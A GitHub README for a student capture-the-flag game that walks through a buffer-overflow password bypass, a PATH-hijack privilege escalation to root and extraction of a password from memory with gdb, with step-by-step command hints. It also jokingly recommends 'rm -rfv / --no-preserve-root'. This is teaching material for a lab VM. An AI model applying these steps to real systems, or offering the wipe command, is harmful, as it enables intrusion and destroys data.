 # Capture the hack
### What is this "game"?
+ This exploit game aims to learn some very basic linux comands and also some low *hacking* knowlage to collect all flags.
+ And also this is project for BPC-IC1.
## How to play
### Initial setup:
- We recommend doing this on some virtual machine (manjaro for example).
- And also for the compiling, player needs to know the root password (but later on player tryes to bypass it).
+ Clone this repo and cd in its file:
```bash
git clone https://github.com/PrimalMight/IC1_Project.git
smthn=`find $(pwd) -name 'IC1_Project'` && cd $smthn
```
+ Compile totally legit SW:
```bash
sudo gcc -w -g -fno-stack-protector -o launch_me main.c   
sudo gcc -o decryptor decryptor.c 
```
> names ``launch_me`` and ``decryptor`` are optional, but i recommend not changing it. <br>
### Game tutorial:
Start the program with ``./launch_me``.
+ **First flag: Buffer overflow bypass the initial password check!**
	* After the program is started, player is asked for some password, well we dont know the password, se you need to find other way how to gain acces! <br>
	<details>
 	<summary>Hint here!</summary>

  ```
  Maybe try spam of ``A`` (somewhere between 1 and 35) ``1`` on the end?
  ```
	</details>
+ **Second flag: Hijack the path for relative curl call in the program for shell and escalate privilege to root!**
	* ``$ strings exploit_this`` to get information about the compiled file. <br>
	* ``$ curl -I localhost`` - curl is called without full path using $PATH variable! <br>
	* So you need to hijack the curl path and substitute curl for shell. <br>
	<details>
 	<summary>Hint here!</summary>

  ```bash
  strings launch_me
  echo /usr/bin > /tmp/curl
  #this one is easy, give all privileges to curl (use chmod)
  export PATH=/tmp:$PATH
  #cd back to the repo file
  which curl
  #launch the compiled program with ./launch_me
  #enter the password overflow that worked from first flag
  #choose ``y`` on "do you want to check fo running http localhost service (y/n)"
  #execute ``whoami`` command to make sure, you have root privileges
  ```
	</details>
	
+ **Third flag: Extract the password from memory using gdb tool and use this password to decrypt ``riddle_me_this_batman.txt`` file containing final riddle for batman!**
	* There are two parts player needs to do.
	* First, create another .txt file and with echo add some text into it (it is needed to do this, because it is the unix way of adding text to the file).
	```bash
	touch test.txt; echo "We are no strangers to love, You know the rules and so do I!"
	```
	* launch compiled programme with gdb and try to extract password from memmory.
	```bash
	gdb launch_me
	break <name_of_the_function_player_need_to_break>
	```
	<details>
 	<summary>Hint here!</summary>

  ```bash
  (in normal console) gdb lanch_me
  (in gdb) break encrypt_file
  (in gdb) #answer ``y`` to "Enable debuginfo for this session(y or [n])"
  (in gdb) run
  (in gdb) #enter the "password" from first flag
  (in gdb) #answer ``n`` to "want to check for local service running?"
  (in gdb) #answer ``y`` to "do you want to encrypt file? (y/n)"
  (in gdb) #enter the filename: test.txt (or whatever you choosed to name it)
  (in gdb) x/s password #still in the gdb
  (in gdb) exit
  (in gdb) #answer ``y`` to "Quit anyway?(y or n)"
  ```
	</details>
	
	* Second part is decrypthing the ``riddle_me_this_batman.txt``.
	* To do that, you need once again enter shell with root privileges (second flag) and use password you found above for encryptor to decrypt .txt file.
	```bash
	./decryptor
	> please provide a password: <here_goes_the_password>
	nano output_plaintext.txt
	```
	* And now you've got all the flags, so there is one final thing you need to do before you leave this VM image, what is the answer for the riddle?.
	* [Click me for answer](https://youtu.be/54P0GQEM4w8)
	<details>
 	<summary>Hint here!</summary>

  ```bash
  (normal console) ./launch_me
  > Do you want to check for runninf http localhost service? (y/n)
   y
  (root from flag2) ./decryptor
  > Please prowide a password: <here_goes_the_password>
  (root from flag2) nano output_plaintext.txt
  ```
	</details>
	
	* And now you can leave with style! 
	> I recommend using something like ``rm -rfv / --no-preserve-root``
	
## BPC-IC1 things:
Authors: 2x BPC-IBE, 1x BPC-TLI
### Vulnerabilities
- [x] Buffer overflow into password check bypass
- [x] Relative path hijack into privilege escalation with SUID bit
- [x] Visible password in memory

